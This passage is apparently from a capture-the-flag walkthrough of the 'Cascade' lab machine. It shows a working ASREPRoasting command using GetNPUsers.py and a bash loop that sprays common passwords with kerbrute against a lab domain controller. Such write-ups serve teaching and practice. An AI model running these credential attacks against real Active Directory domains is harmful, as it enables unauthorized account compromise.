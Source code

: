 This is great! We have a userlist that we can use to do **ASREPRoasting** and we can do **Password Spraying** without locking anyone out.

### Time Saving #1: ASREPRoasting
*To save time,* we're going to do the **ASREPRoast** first because it's a quick check and has a high chance of giving us creds (*if we crack the hash*).

**Command:** 
```bash
GetNPUsers.py -dc-ip 10.10.10.182 -request -debug -usersfile users.txt cascade.local/
```

**Note:** *I generally prefer to use the* `-debug` *flag with everything. It can save me a lot of time in troubleshooting.*

![asreproast-results](/assets/Cascade/asreproast-results.jpg)

We find no accounts that don't require **kerberoes preauthentication.**

we also notice some accounts got another type of error: `KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)`. *more on those later :)*

### Time Saving #2: Password Spraying in the background
*Since the password policy contained no user lockout,* we're good to go spraying :D

**Command:** 
```bash
for i in $(cat /opt/Seclists/Passwords/Common-Credentials/500-worst-passwords.txt); do kerbrute passwordspray --dc 10.10.10.182 -d cascade.local users.txt $i | grep -oP '\[\+\].*'; done
```
